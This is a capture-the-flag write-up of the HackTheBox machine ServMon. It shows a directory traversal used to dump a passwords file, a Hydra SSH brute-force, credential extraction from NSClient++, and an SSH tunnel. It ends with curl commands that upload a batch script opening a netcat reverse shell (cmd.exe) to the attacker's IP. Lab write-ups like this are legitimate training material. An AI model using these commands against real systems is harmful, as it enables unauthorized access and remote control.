





# ServMon

Author: Ewaël

**ServMon** is an easy HackTheBox box by dmw0ng.

`nmap -sC -sV -oN nmap 10.10.10.184 -v -A` shows lots of opened ports. Let's start with the 80 one.



Basic credentitials do not work but an exploit exists that allows dump any file on target: [CVE-2019-20085](https://www.exploit-db.com/exploits/48311). This exploit is available on metasploit and works perfectly, but I do not have any idea about what file to dump yet. Let's explore other ways, this one could be useful later.

Port 21 is open and anonymous access is allowed. I find two users: `Nadine` and `Nathan`, and two files: `Confidential.txt` and a useless todo list.

```
Nathan,

I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.

Regards

Nadine
```

Now I know which file to dump! Let's get it through the directory traversal with `set filepath /users/nathan/desktop/passwords.txt`:

```
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```

None of these work for the NVMS login page, let's try with the ssh login:

```
$ hydra -L users.txt -P passwords.txt 10.10.10.184 ssh
...
[22][ssh] host: 10.10.10.184   login: Nadine   password: L1k3B1gBut7s@W0rk
...
```

There it is! `Nadine` is the user with the flag:

`d16c47d65bb6dc9d9df64a7777373bb9`

Let's get the root flag. To begin with I upload winPEAS on target with curl to do some enumeration while reading again the `nmap` results. winPEAS finds `C:\WINDOWS\system32\inetsrv\appcmd.exe` which seems to be interesting but as I never did privilege escalation on Windows I prefer to start with something else. Port 8443 is open too but the website seems broken.

Luckily nmap is able to show an NSClient is running on it. Searching for known vulnerabilities I find [https://www.exploit-db.com/exploits/46802](https://www.exploit-db.com/exploits/46802) and 

```
NSClient++ 0.5.2.35 - Authenticated Remote Code Execution | json/webapps/48360.txt
```

I am able to dump the login password on target with `nscp web -- password --display` in `C:\Program Files\NSClient++` but `python3 48360.py -t 10.10.10.184 -P 8443 -p ew2x6SsGTxjRwXOT -c ls` does not seem to work. Going back on target I decide to print the NSClient config file instead of dumping the password only to see what is blocking the exploit.

```
> type nsclient.ini
...
; Undocumented key
password = ew2x6SsGTxjRwXOT

; Undocumented key
allowed hosts = 127.0.0.1
...
```

Here is the problem, I need to do some port forwarding to connect as localhost, that is also the reason why the site seemed so broken:

```
ssh -L 8080:127.0.0.1:8443 nadine@10.10.10.184
```

*Note: I took those screens while trying with `4444` as the forwarded port.*



I can now login with `ew2x6SsGTxjRwXOT`:



Let's do the exploit manually following [https://www.exploit-db.com/exploits/46802](https://www.exploit-db.com/exploits/46802). I set up my listener on 4444 and add my malicious script in settings after uploading it on target as well as the `nc.exe` that I got there [https://eternallybored.org/misc/netcat](https://eternallybored.org/misc/netcat) which is actually the `nc64.exe` one that I renamed `nc.exe`:



Let's create the schedule that will execute the script:



Reload through `Control` panel and... Nothing. Something must be wrong somewhere but the machine is particurlarly slow and laggy so it is really a pain to reset it everytime my exploit fails. I end up doing it on the CLI as `Nadine` after reading some curl documentation:

```
$ curl -s -k -u admin -X PUT https://localhost:8080/api/v1/scripts/ext/scripts/evil.bat --data-binary "c:\Temp\nc.exe 10.10.14.24 4444 -e cmd.exe"
$ curl -s -k -u admin https://localhost:8080/api/v1/queries/evil/commands/execute?time=1m
```

And I finally get my shell as admin:

`9ec01e4f9a39388065e32d30b49dc0bf`
